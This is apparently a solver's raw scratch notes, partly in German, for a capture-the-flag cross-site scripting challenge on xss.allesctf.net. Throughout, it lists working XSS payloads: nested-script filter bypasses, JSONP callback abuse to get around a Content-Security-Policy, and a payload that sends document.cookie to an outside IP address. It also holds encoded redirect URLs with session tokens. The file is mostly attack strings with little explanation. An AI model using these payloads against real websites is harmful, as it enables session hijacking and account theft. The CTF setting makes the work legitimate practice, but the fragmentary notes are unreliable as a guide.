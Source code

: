 
# Framework 
php

5e6cec813f3a3

about.php 
items.php => items.php?cb=parseItems
?search=<<i>>TEST<<%2Fi>> => "<>TEST<>" 

<input name="link" type="text" size="100" placeholder="URL" required pattern="^http://xss\.allesctf\.net/.*$"/>
</div>

server geht nur über allectf.net

# Struktur

http://xss.allesctf.net/?search=

http://stage2.xss.allesctf.net/?token= => Hintergrund ändern stage 2 XSS ?


# php session id

striesf33fst5o1hguu3gnk5k4
7k5ri26f3ici7tpste25r31dg2c

<sc<script>ript>alert(1)</script>
ript>alert(1)

<<s<c<script>script>alert(1)</script>
<script>alert(1)

<<s<c<script>script>alert(1)<<sc</script>/script>



http://xss.allesctf.net/?search=%3Cscript+%3Ealert%281%29%3B%3C+%2F+script%3E


http://xss.allesctf.net/items.php?cb=PAPA
http://xss.allesctf.net/items.php?cb=%3Chtml%3E%3C/html%3E
FORBIDDEN_CHARFORBIDDEN_CHARhtmlFORBIDDEN_CHARFORBIDDEN_CHARFORBIDDEN_CHARFORBIDDEN_CHAR/htmlFORBIDDEN_CHARFORBIDDEN_CHAR


<img src onerror="javascript::alert(1);"/>

<img src onerror="javascript::alert(1);"/>

"aa</b><<s<c<script>script>alert("1");<<sc</script>/script><b>aa"


</b><script>alert(1)</script><b>


Content-Security-Policy: default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“default-src”).

XSS
</b><script src="/items.php?cb=var m = new Image(0, 0);m.src = 'http://131.234.217.81:8000/test.png?g=' + document.cookie;document.body.appendChild(m);//"></script><b>,

var m = new Image(0, 0);m.src = 'http://131.234.217.81:8000/test.png?g=' + document.cookie;document.body.appendChild(m);//

window.location = "http://stage2.xss.allesctf.net/";

fetch("http://131.234.217.81/test.json")


HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Sat, 14 Mar 2020 17:46:45 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3080
Connection: close
X-XSS-Protection: secure!
X-Frame-Options: deny
X-Content-Type-Options: nosniff
Content-Security-Policy: script-src 'nonce-moicNxQo5oosc6uboIPG5zGv6pI=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=as8rqnhhuoah0p7qka6igocil2; path=/; SameSite=Lax;; domain=xxs.allesctf.net; HttpOnly
Vary: Accept-Encoding


fetch mit php sess id ?


http://xss.allesctf.net/?search=</b><script src="/items.php?cb=window.location='http://stage2.xss.allesctf.net/?token=5e6d1d66ebf78';//"></script><b>

http://xss.allesctf.net/?search=%3C%2Fb%3E%3Cscript%20src%3D%22%2Fitems.php%3Fcb%3Dwindow.location%3D%27http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D5e6d1d66ebf78%27%3B%2F%2F%22%3E%3C%2Fscript%3E%3Cb%3E

http://xss.allesctf.net/?search=%3C%2Fb%3E%3Cscript%20src%3D%22%2Fitems.php%3Fcb%3Dwindow.location%3D%27http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D5e6d1a55bb4f5%27%3B%2F%2F%22%3E%3C%2Fscript%3E%3Cb%3E

5e6d1a55bb4f5


5e6d17fc7162e


http%3A%2F%2Fxss.allesctf.net%2F%3Fsearch%3D%3C%2Fb%3E%3Cscript%20src%3D%22%2Fitems.php%3Fcb%3Dwindow.location%3D%27http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D5e6d1a55bb4f5%27%3B%2F%2F%22%3E%3C%2Fscript%3E%3Cb%3E


</b><script src="/items.php?cb=eval('');alert(1);//"></script><b>